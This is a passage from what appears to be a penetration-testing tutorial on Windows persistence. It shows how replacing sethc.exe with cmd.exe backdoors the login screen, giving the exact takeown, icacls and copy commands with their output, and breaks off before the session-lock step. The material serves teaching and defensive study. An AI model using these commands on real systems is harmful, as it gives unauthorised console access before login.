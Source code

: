 After pressing `SHIFT` 5 times, Windows will execute the binary in `C:\Windows\System32\sethc.exe`. If we are able to replace such binary for a payload of our preference,  we can then trigger it with the shortcut. Interestingly, we can even do  this from the login screen before inputting any credentials.

A straightforward way to backdoor the login screen consists of replacing `sethc.exe` with a copy of `cmd.exe`. That way, we can spawn a console using the sticky keys shortcut, even from the logging screen.

To overwrite `sethc.exe`, we first need to take ownership  of the file and grant our current user permission to modify it. Only  then will we be able to replace it with a copy of `cmd.exe`. We can do so with the following commands:

- **Command Prompt**        

```shell-session
C:\> takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
        1 file(s) copied.
        
```

After doing so, lock your session from the start menu:
